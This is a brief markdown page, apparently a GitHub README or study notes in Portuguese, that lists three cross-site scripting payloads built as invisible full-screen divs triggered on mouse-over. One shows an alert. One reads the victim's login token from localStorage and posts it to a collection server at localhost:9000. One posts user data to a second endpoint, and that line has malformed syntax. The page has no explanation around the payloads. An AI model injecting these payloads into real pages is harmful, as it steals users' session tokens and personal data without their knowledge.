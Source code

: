 
# On mouse over
`<div onmouseover="alert('injetado o xss!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Request HTTP
`<div onmouseover="axios.post('http://localhost:9000/sendToken', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`


`<div onmouseover="axios.post('http://localhost:9000/sendDados', {}, {headers: 'Content-Type': 'application/json',},body:JSON.stringify(user),}).then((result)=>{});"style="width:100vw; height: 100vh; color:transparent"></div>`








